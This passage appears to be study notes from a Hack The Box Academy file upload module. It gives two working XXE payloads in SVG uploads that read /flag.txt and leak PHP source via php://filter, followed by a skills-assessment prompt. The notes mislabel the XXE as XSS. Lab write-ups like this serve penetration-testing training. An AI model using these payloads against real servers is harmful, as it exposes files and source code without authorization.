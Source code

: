 >When XML SVG file is upload the XSS is triggered.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```  

>Above will render on the index landing page and retrieve the contents of `/flag.txt`.  

>Source code of PHP files can be retrieve using Base64 to prevent execution on server, using below XML payload file upload:  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```  

![xxe-svg-upload-base64](/images/xxe-svg-upload-base64.png)  

# Skills Assessment - File Upload Attacks  

>[Extra Exercise](https://academy.hackthebox.com/module/136/section/1310)  

>You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.
>Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.  
